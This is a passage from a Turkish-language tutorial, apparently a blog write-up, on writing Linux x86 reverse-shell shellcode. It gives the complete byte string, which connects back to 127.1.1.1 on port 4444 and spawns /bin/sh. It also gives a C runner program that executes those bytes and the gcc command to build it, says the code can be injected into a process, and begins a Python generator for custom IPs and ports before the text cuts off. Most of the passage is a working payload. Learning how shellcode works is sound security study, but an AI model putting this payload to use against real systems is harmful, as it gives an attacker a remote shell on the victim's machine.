 Böylece bizim kabuk kodumuz(shellcode):     

```bash
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1
\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c
\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80
\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b
\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e
\x89\xe3\xcd\x80"
```

Sonra,yukarıdaki kodu (`run.c`) bununla değiştirelim:      

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = 
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89"
"\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68"
"\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1"
"\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49"
"\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68"
"\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```

Derleyelim, dinleyiciyi hazırlayalım ve çalıştıralım:          

```bash
gcc -z execstack -m32 -o run run.c
./run
```

![run C code](./images/14/2021-10-16_14-03.png){width="80%"}       

Gördüğünüz gibi, her şey mükemmel bir şekilde çalışıyor. Artık bu kabuk kodunu kullanabilir ve bir sürece enjekte edebilirsiniz.     

Ancak bir sorun var. Şimdi ip ve portu kolayca yapılandırılabilir hale getirelim.        

### yapılandırılabilir IP ve port

Bu sorunu çözmek için basit bir python betiği (`super_shellcode.py`) oluşturdum:

```py
import socket
import argparse
import sys

BLUE = '\033[94m'
GREEN = '\033[92m'
YELLOW = '\033[93m'
RED = '\033[91m'
ENDC = '\033[0m'

def my_super_shellcode(host, port):
    print (BLUE)
    print ("let's go to create your super shellcode...")
    print (ENDC)
```